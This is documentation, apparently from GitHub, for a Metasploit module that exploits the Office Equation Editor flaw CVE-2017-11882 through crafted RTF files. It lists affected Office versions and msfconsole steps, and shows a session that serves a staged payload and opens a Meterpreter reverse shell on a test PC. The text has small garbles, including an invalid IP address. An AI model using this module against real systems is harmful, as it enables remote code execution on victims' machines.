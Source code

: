 ## Introduction

Module exploits a flaw in how the Equation Editor that allows an attacker to execute arbitrary code in RTF files without interaction. The vulnerability is caused by the Equation Editor, to which fails to properly handle OLE objects in memory.

## Vulnerable Application

- Microsoft Office 2016
- Microsoft Office 2013 Service Pack 1
- Microsoft Office 2010 Service Pack 2
- Microsoft Office 2007

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/fileformat/office_ms17_11882`
3. Do: `set PAYLOAD [PAYLOAD]`
4. Do: `run`


## Options
### FILENAME
Filename to output & if injecting a file, the file to inject

### FOLDER_PATH
Path to filename to inject


## Example

```
msf > use exploit/windows/fileformat/office_ms17_11882
msf exploit(office_ms17_11882) > set FILENAME msf.rtf
FILENAME => /home/mumbai/file.rtf
msf exploit(office_ms17_11882) > set LHOST ens3
LHOST => ens3
msf exploit(office_ms17_11882) > set LPORT 35116
LPORT => 35116
msf exploit(office_ms17_11882) > run
[*] Using URL: http://0.0.0.0:8080/BUY0DYgc
[*] Local IP: http://192.1668.0.11:8080/BUY0DYgc
[*] Server started.
[*] 192.168.0.24     office_ms17_11882 - Handling initial request from 192.168.0.24
[*] 192.168.0.24     office_ms17_11882 - Stage two requested, sending
[*] Sending stage (205379 bytes) to 192.168.0.24
[*] Meterpreter session 1 opened (192.168.0.11:35116 -> 192.168.0.24:52217) at 2017-11-21 14:41:59 -0500
sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```
